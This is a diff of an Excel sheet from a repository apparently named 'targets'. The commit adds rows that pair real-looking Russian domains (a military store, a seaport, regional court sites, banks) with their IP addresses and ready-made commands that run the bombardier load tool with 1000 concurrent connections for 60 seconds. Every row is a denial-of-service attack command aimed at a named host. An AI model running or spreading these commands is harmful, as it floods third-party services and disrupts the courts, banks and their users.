

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; values as stored, in another font and other column widths than the file's, no borders; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
-row 1: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 31.31.196.235 && sleep 5; | 31.31.196.235 | военсбыт.рф
-row 2: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.208.1.102 && sleep 5; | 195.208.1.102 | www.voentorg-moscow.ru
+row 6: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 45.130.41.33 && sleep 5; | 45.130.41.33 | sktatflot.ru/
+row 7: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 77.222.40.105 && sleep 5; | 77.222.40.105 | www.morport-sochi.ru
+row 8: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.42.111.139 && sleep 5; | 84.42.111.139 | orenburgsky.orb.sudrf.ru
+row 9: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.42.111.139 && sleep 5; | 84.42.111.139 | usd.orb.sudrf.ru
+row 10: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 92.53.83.234 && sleep 5; | 92.53.83.234 | databank.ru
+row 11: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.198.68.51 && sleep 5; | 91.198.68.51 | online.databank.ru
+row 12: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.5.80.252 && sleep 5; | 213.5.80.252 | gebank.ru
+row 13: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.5.80.161 && sleep 5; | 213.5.80.161 | ib.gebank.ru
+row 14: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.5.80.137 && sleep 5; | 213.5.80.137 | ibank.gebank.ru
```
Also changed, not shown: formulas that keep their value.
